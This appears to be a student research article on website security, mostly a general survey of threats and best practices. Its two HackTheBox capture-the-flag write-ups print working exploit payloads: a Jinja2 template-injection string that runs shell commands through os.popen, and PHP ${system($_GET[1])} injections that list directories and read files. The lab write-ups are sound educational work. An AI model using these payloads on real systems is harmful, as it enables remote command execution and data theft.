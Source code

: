 # Website Security: Approaches and Challenges in Information System Protection

## Authors
- **Polychronis Varvaris**  
  International Hellenic University of Thessaloniki, Greece  
  Email: polihronisv@gmail.com
  
- **Konstantinos Georgiadis**  
  International Hellenic University of Thessaloniki, Greece  
  Email: kostas.georgiadisg@gmail.com
---

## Full research link:
https://docs.google.com/document/d/123FWVmYmiMp0chmDWQAT9QL3YinBn5hyrGoNf1TZAgg/edit?usp=sharing

## 📝 Abstract

Website security is a critical factor in safeguarding information and users in the digital space. This academic article explores information systems security, focusing on website protection. Key challenges such as malware, DDoS attacks, and external breaches are discussed, along with approaches and techniques like cryptography, access control systems, and threat detection and response.

Additionally, best practices such as staff training, regular software updates, and monitoring vulnerabilities are presented. The article serves as a valuable source for IT professionals and researchers seeking to understand and apply effective website security practices.

---

## 🔑 Keywords
Website security, information protection, attacks and vulnerabilities, cryptography, access control systems, malware, threat detection, software updates, security best practices.

---

## 📌 Table of Contents
1. [Introduction](#1-introduction)  
2. [Major Security Issues in 2023](#2-major-security-issues-in-2023)  
3. [Social Implications](#3-social-implications)  
4. [Tools and Case Studies](#4-tools-and-case-studies)  
5. [Experiment A: Tamplated](#5-experiment-a-tamplated)  
6. [Experiment B: LoveTok](#6-experiment-b-lovetok)  
7. [Solutions](#7-solutions)  
8. [Future Work](#8-future-work)  
9. [Conclusion](#9-conclusion)

---

## 1. Introduction

As technology rapidly evolves, so do the challenges in securing information systems. IT security involves protecting data from unauthorized access, malicious use, loss, or destruction. It plays a foundational role in modern society, supporting businesses, governments, and individuals.

Failure to ensure adequate security can lead to privacy breaches, financial loss, or even national security threats. Users expect secure communication platforms, e-commerce sites, banking systems, and online services. Breaches can damage trust and have severe consequences for organizations.

---

## 2. Major Security Issues in 2023

Key problems in modern information system security include:

- **Malware**: Viruses, spyware, and ransomware that compromise data and privacy.
- **Software Vulnerabilities**: Weaknesses that can be exploited for unauthorized access.
- **Social Engineering**: Scams via emails or fake sites aimed at deceiving users.
- **Lack of Training**: Users unaware of basic cybersecurity principles pose risks.
- **Emerging Technologies**: IoT, AI, and autonomous systems introduce new threats.

---

## 3. Social Implications

Beyond technical issues, social aspects of website security matter too:

- **Personal Data Protection**: Users share private information on social platforms.
- **Abuse and Surveillance**: Harassment and unwanted monitoring are threats.
- **Anonymity & Transparency**: Platforms must offer privacy options and disclose data use.

---

## 4. Tools and Case Studies

We used [HackTheBox](https://www.hackthebox.com/), a platform for hands-on cybersecurity training. It provided vulnerable virtual machines to practice identifying and fixing vulnerabilities. The community also enabled sharing knowledge and interacting with others in the cybersecurity space.

---

## 5. Experiment A: *Tamplated*

**Objective**: Read the contents of the `flag` folder from `167.99.90.179:31306`.

### Process:
- Site runs on Flask + Jinja2 (Python-based).
- Using Wireshark, we found the server was `Werkzeug 1.0.1`.
- Jinja2 template injection is possible via the URL:

http://167.99.90.179:31306/{{7*7}} → displays "49"


### Exploit:
We injected a Jinja2 SSTI payload:

{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}

This displayed the contents of flag.txt via an error message.

6. Experiment B: LoveTok

Objective: Retrieve contents of the flag folder from 134.209.180.248:31901.
Process:

    The site allows refresh with URL changes like:

http://134.209.180.248:31901/?format=r

Exploitation tested by passing malformed parameters.
Example:

?format=${phpinfo()}

Command injection using:

?format=${system($_GET[1])}&1=ls+/

Final successful command to read flag:

    ?format=${system($_GET[1])}&1=cat+/flagrDOll

7. Solutions

To combat these challenges, organizations should:

    Implement strong security systems.

    Provide user training and awareness programs.

    Monitor for evolving threats and patch vulnerabilities.

    Establish clear security policies and access control.

8. Future Work

Some potential future directions based on this research:

    User Education: Investigate tools and training to improve security awareness.

    Security Tools: Develop new protective technologies for web applications.

    Policy Design: Explore effective governance models for information security.

    AI in Security: Leverage machine learning for threat detection and prevention.

9. Conclusion

This project highlights the importance of securing websites and information systems. We explored both technical and social aspects of cybersecurity, conducted hands-on experiments using real-world scenarios, and proposed practical measures to enhance security. Constant vigilance and adaptability are essential in the evolving landscape of cyber threats.
